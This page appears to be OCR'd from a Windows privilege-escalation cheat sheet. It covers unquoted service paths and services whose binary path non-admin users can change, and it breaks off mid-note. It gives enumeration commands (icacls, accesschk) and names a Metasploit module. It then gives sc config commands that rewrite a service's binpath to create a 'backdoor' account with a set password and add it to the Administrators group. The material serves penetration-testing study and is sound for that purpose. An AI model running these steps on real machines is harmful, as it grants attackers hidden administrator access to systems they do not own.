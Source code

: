    C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe

   If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

   C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe

   To be secure it should be like this:

   “C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe”

   When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:

   C:\Program.exe
   C:\Program Files.exe
   C:\Program Files(x86)\Program Folder\A.exe
   ...

   Check permissions of folder path

   icacls "C:\Program Files (x86)\Program Folder"

   If we can write in the path we plant a backdoor with the same name with the service and restart the service.

Metasploit module:

exploit/windows/local/trusted_service_path

Vulnerable Services
Search for services that have a binary path (binpath) property which can be modified by non-Admin users - in that case change the binpath to execute a command of your own.
Note: Windows XP shipped with several vulnerable built-in services.
Use accesschk from SysInternals to search for these vulnerable services.

https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx

For Windows XP, version 5.2 of accesschk is needed:

https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\

Then query the service using Windows sc:

sc qc <vulnerable service name>

Then change the binpath to execute your own commands (restart of the service will most likely be needed):

sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln-service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>

Note - Might need to use the depend attribute explicitly:

